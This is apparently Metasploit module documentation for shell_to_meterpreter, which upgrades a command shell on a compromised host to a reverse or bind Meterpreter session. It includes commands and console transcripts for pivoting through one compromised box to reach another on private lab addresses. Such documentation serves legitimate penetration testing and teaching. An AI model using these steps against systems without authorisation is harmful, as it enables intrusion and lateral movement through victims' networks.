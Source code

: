 shell_to_meterpreter allows you to upgrade a shell session to Meterpreter. It can be launched as
a post module, or from the sessions command. By default, this module will use a reverse
Meterpreter.

## Important Options

**HANDLER**

The handler option is for starting a multi/handler to receive the connection. By default this is
true, because you will need it. But if for some reason if you're setting one separately, you may
want to consider having it as false.

**LHOST**

The LHOST option is for the reverse Meterpreter you are upgrading to. By default, the module can
figure it out for you. But over a pivot, you will need to manually set this, because session
objects don't necessarily have that information.

**LPORT**

The LPORT option is also for the reverse Meterpreter you are upgrading to.

**PAYLOAD_OVERRIDE**

This is an advanced option. If you don't want to use the default reverse Meterpreter, then you can
use this.

## Scenarios

**Using sessions -u**

```sessions -u``` is the same as running the post module against a specific session. However, this
is limited to using the default reverse Meterpreter payload, so you will not be able to use it
via a pivot.

Usage is rather simple. At the msf prompt, first off, read the sessions table to see which one you
want to upgrade:

```
msf > sessions

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.146.1:4444 -> 192.168.146.128:1204 (192.168.146.128)

msf > 
```

In this demonstration, session 1 is a shell, so we upgrade that:

```
msf > sessions -u 1
```

**Upgrading a shell via a pivot**

This scenario is a little tricky, because the default options won't work over a pivot. The problem
is that if you got a session with a bindshell, your LHOST will say "Local Pipe". And if you got it
with a reverse shell, the LHOST is actually an IP range. Neither is an acceptable format for the
LHOST option.

There are two ways you can choose: either you must manually set LHOST, or you could choose a
bind Meterpreter. The second is really easy, all you need to do is ```set PAYLOAD_OVERRIDE```.

If you prefer to manually set LHOST, this should be the compromised host you're pivoting from.
Perhaps a digram will help to explain this:

```
|-------------|       |-------------------|       |-------------------|
|   Attacker  | <---> | Compromised box A | <---> | Compromised box B |
|-------------|       |-------------------|       |-------------------|
 192.168.146.1         192.168.146.128
                       192.168.1.101 (VPN)          192.168.1.102(VPN)
```

In this example, let's start with breaking into box A (192.168.146.128):

```
[*] Sending stage (957999 bytes) to 192.168.146.128
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.128:1208) at 2016-04-28 22:45:09 -0500

meterpreter >
```

We decide that box A is on a VPN, with IP 192.168.1.101. Also, we found box B as 192.168.1.102. We
need to create that pivot:

```
msf > route add 192.168.1.1 255.255.255.0 1
[*] Route added
```

And we break into box B (192.168.1.102) with a Windows bind shell:

```
[*] Command shell session 2 opened (Local Pipe -> Remote Pipe) at 2016-04-28 22:47:03 -0500
```

Notice this says "Local Pipe", which means the box B's session object doesn't really know box A's IP.
If you try to run shell_to_meterpreter this way, this is all you get:

```
msf post(shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[-] LHOST is "Local Pipe", please manually set the correct IP.
[*] Post module execution completed
```

To upgrade box B's shell, set LHOST to box A's 192.168.1.101. And that should connect correctly:

```
msf post(shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.1.101:4433 via the meterpreter on session 1
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.1.102
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
...
[*] Command stager progress: 100.00% (102108/102108 bytes)
[*] Meterpreter session 3 opened (192.168.146.1-192.168.146.128:4433 -> 192.168.1.102:1056) at 2016-04-28 22:50:56 -0500
```